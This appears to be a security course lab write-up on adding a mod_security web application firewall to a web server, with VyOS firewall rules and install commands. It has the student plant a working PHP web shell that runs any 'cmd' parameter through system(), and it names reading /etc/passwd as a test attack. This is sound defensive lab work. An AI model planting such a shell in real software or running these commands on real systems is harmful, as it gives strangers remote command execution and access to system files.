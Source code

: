 # Lab 5.1 - Wazuf WAF
In this lab we are going to augment web01 by adding a web application firewall (WAF).  The wazuh agent should currently be able to forward apache error logs so a good deal of our work is done for us already.  We are then going to run malicious http requests against web01 to see how our WAF performs.

## patch fw01
>[!Warning]
> web01's ability to talk to the WAN and the WANs ability to talk to web01 might be currently restricted.  Updating and patching the server is one of the things we must do from time to time.  VYOS itself cannot filter by domain name such as allowing traffic to updates.centos.org.  It has to be by IP address or subnet.  For this reason, many organizations go to an internal mirror for this purpose.  We will use a work around.

### WAN-to-DMZ
- add a new permanent rule to vyos such that established connections from the DMZ-to-WAN are allowed back through the WAN-to-DMZ
```
set firewall name WAN-to-DMZ rule 1 action accept
set firewall name WAN-to-DMZ rule 1 state established enable
```
### DMZ-to-WAN
temporary rule for software updates that we either delete, disable or discard when complete
```
set firewall name DMZ-to-WAN rule 999 action accept
set firewall name DMZ-to-WAN rule 999 source address 172.16.50.3
```

## Adding mod_security, the core rule set and php to web01
The following command will install mod_security, the core ruleset associated with this layer 7 firewall and the php necessary to make a webshell work.
```
sudo yum install mod_security mod_security_crs php php-common php-opcache php-cli php-gd php-curl php-mysqlnd -y
```
- after installation delete temporary rule on fw01
```
delete firewall name DMZ-to-WAN rule 999
```
- create a php webshell at `/var/www/html/shell.php` on web01
```
<!-- source: https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985 -->
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

while this shell works for commands like `whoami` and `/sbin/ifconfig`, modsecurity will prevent dangerous commands like `cat /etc/passwd` from being executed


